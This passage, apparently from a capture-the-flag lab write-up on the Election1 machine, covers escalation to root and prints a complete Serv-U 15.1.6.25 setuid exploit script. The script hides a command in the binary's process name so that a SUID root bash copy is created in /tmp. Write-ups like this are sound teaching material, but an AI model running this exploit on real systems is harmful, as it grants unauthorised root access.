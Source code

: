 **Switch User to `love`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Election1/images/a40.png)

## www-data/love to root

**Serv-U SUID:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Election1/images/a41.png)

Found `Serv-U File Server Version 15.1.6.25`.

**Searchsploit Result:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Proving-Grounds-Play/Election1/images/a42.png)

Looks like we can leverage the `Serv-U` SUID binary to escalate to root!

**47173.sh:**
```bash
if ! test -u "/usr/local/Serv-U/Serv-U"; then
  echo '[-] /usr/local/Serv-U/Serv-U is not setuid root'
  exit 1
fi

echo "[*] Launching Serv-U ..."

/bin/bash -c 'exec -a "\";cp /bin/bash /tmp/sh; chown root /tmp/sh; chmod u+sx /tmp/sh;\"" /usr/local/Serv-U/Serv-U -prepareinstallation'

if ! test -u "/tmp/sh"; then
  echo '[-] Failed'
  /bin/rm "/tmp/sh"
  exit 1
fi

echo '[+] Success:'
/bin/ls -la /tmp/sh

echo "[*] Launching root shell: /tmp/sh"
/tmp/sh -p
```